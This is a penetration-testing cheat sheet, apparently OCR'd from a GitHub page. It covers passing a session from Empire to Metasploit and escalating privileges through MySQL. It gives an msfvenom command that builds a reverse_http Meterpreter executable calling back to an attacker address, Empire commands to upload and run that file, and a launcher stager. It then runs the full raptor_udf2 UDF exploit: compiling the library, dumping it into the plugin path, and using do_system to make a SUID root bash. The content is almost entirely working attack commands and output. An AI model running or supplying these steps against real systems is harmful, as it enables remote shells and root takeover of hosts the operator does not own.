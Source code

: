 ## Switch between Empire and Metasploit
```
$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4444 -f exe -o exe.exe
# setup multi handler listener
Empire: SY24XF0J) > upload exe.exe
Empire: SY24XF0J) > shell dir
Empire: SY24XF0J) > shell C:\Users\user\Downloads\exe.exe

```
Other way
```
Empire: SY24XF0J) > usestager windows/launcher_bat
Empire: SY24XF0J) > set Listener http
Empire: SY24XF0J) > execute
meterpreter> upload launcher.bat
```


# MySQL
Connect remotely to mysql database
```
mysql --host=10.10.10.10 --port=1234 --user=db_user -p
```
Show privileges
```
SHOW Grants;
show variables;
```
## MySQL User Defined Functions (UDF)
See https://www.exploit-db.com/exploits/1518

Compile:
```
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.03 sec)

mysql> insert into foo values(load_file('/home/j0hn/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected, 1 warning (0.00 sec)

mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function | 
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```